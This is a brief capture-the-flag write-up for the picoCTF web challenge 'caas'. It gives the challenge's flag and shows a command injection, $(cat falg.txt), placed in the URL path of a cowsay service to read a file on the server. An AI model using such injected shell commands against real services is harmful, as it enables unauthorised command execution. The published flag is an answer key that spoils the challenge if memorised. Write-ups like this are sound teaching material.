


# caas

Author: BrownieInMotion

Category: Web Exploitation

Flag: `picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}`

## Description

Now presenting cowsay as a service

## Difficulty

Medium

## Solution

1. Visit the website

2. Check the source code

3. Open the js file and understand the async function

   `${window.origin}/cowsay/{message}`; I thought this code can do command injection

   just add $(cmd)

   $ {window.origin}/cowsay/$(cmd)`;

4. Then cat falg.txt -> `https://caas.mars.picoctf.net/cowsay/$(cat%20falg.txt)`

